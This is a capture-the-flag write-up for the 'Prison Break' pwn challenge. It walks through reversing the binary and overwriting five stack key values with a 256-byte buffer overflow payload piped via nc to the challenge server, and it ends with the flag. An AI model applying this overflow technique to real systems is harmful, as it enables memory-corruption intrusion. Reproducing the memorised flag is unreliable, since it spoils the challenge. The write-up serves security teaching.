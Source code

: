 # Prison Break


**Description:**

````
[Noiche] : J'ai été envoyé au goulag l'année dernière à cause de mes challenges de PWN... Venez m'aider à sortir d'ici et je vous récompenserai :p

Accès au challenge : nc ctf.midnightflag.fr 9021

Format : MCTF{}

Auteur : Noiche
````

**Files:**

[Prison_Break](files/prison_break)

<hr>

The file given is non executable and is just given to reverse the code of the server. We cannot get the flag only by reversing the file.

Here is what we get by connecting to the server using nc:

![prison_server](images/prison_server.png)

After writing something, we get this message:

```
Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x0 - 0x0 - 0x0 - 0x0 - 0x0 ]
```

Well, we will surely need to change this value in order to free Noiche. First we try a basic buffer overflow by flooding the input with A:

```sh
python -c "print 'A' * 1000" | nc ctf.midnightflag.fr 9021

...

Noiche : NOOOO !! You droped the wrong key ! :(
Key    : [ 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 - 0x41414141 ]
```

We can control the key! ...but we don't know what key do we need.

Let's take a quick look at the executable. We open it in [Cutter](https://cutter.re/), and we can directly see a function named `vuln`.

![prison_functions](images/prison_functions.png)

The function is pretty simple, we can see some parts that stand out.

The function set 6 memory spaces to 0, we can ignore `var_ch`:

![prison_memory_set](images/prison_memory_set.png)

It's seems that those are the memory spaces we overflowed before. All space are 4 bytes long and are next to each other.

There is a scanf and some comparisons just after:

![prison_cmp](images/prison_cmp.png)

The different parts of the key are being checked here. We can reproduce the key by using the parameters in each cmp: `0x800`, `0xfffffe49`, `0xb3350000`, `0x0` and `0x1000`.

We will fill the input with 'A' until we reach the start of the key and then write the actual key.   
Since the stack is little endian, we will need to reverse each byte in every part of the key in the final payload (e.g. `0xfffffe49` will become `0x49feffff`).

The payload can be done using Python:
```sh
python -c "print 'A' * number_to_overflow + '\x00\x10\x00\x00' + '\x00\x00\x00\x00' + '\x00\x00\x35\xb3' + '\x49\xfe\xff\xff' + '\x00\x08\x00\x00'" | nc ctf.midnightflag.fr 9021
```

By guessing, we find that we need to write 256 bytes to reach the key in memory.   
We can then replace `number_to_overflow` in our script by 256 and send it once again:

![prison_free](images/prison_free.png)

Here is the flag!

Flag: `MCTF{___1m_fr33_!_1_c4n_m4k3_m0r3_ch4ll5_n0w_!!!___}`

Author: Ooggle
